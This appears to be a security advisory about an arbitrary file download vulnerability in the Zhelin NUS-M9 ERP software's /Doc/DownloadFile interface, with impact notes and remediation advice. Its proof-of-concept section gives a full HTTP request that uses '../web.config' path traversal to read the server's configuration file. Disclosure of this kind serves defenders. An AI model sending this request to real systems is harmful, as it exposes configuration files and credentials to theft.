

## Zhelin NUS-M9 ERP Management Software for the Mechanical Industry


**Arbitrary File Download Vulnerability in Zhelin NUS-M9 ERP Management Software Interface /Doc/DownloadFile**

## **Background** 

Zhelin Information Technology Co., Ltd. (abbreviated as Zhelin Software) is a high-tech internet data company focused on the mechanical industry, specializing in the development, consulting, implementation, and services of enterprise management information software platforms. One of its core products, the Zhelin NUS-M9 ERP management software for the mechanical industry, is widely used in industrial manufacturing. Recently, a severe arbitrary file download vulnerability was discovered in the **/Doc/DownloadFile** interface of this software.

## **Vulnerability Description**

This vulnerability allows unauthorized attackers to download any file on the server by manipulating interface requests. It typically occurs when the application fails to properly validate the file path provided by the user. By exploiting this vulnerability, attackers can access and download sensitive files from the system, such as configuration files, database backups, or other critical information, posing a significant security threat to the system.

## **Impact of the Vulnerability**

1. **Data Breach**: Attackers can download and steal sensitive files, such as user credentials, configuration files, or business data, leading to data breaches.
2. **System Compromise**: By obtaining critical configuration files or code, attackers may conduct further attacks, such as injecting malicious code or manipulating system behavior.
3. **Compliance Risks**: Incidents involving data breaches may violate data protection regulations, leading to legal liabilities and reputational damage.

## POC



```http
GET /Doc/DownloadFile?filePath=../web.config&fileNm=1.xlsx&CUserCode=666&CToken=xxxxx&OID=133&UserID=1&RepType=PublicFiles&DtlID=1&MCode=00133 HTTP/1.1
Host: 127.0.0.1:8086
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=ehdywaltevtixgtll3zsaghf
Connection: close


```


## **Remediation Suggestions**

1. **Path Validation**: Implement strict validation and sanitization of the file path provided by the user to ensure only authorized files can be downloaded.
2. **Access Control**: Restrict the interface to allow access only to files within specific directories, preventing access to other critical directories of the system.
3. **Log Monitoring**: Enhance logging and monitoring of file download requests to detect and respond to abnormal behavior in a timely manner.
4. **Security Audits**: Conduct regular code audits and penetration testing to ensure that similar vulnerabilities can be discovered and fixed promptly.

**Conclusion:** The Zhelin NUS-M9 ERP management software plays a critical role in industrial manufacturing enterprises, making its security of utmost importance. By promptly fixing this arbitrary file download vulnerability, enterprises can effectively protect their data security and prevent potential attacks and data breach incidents.
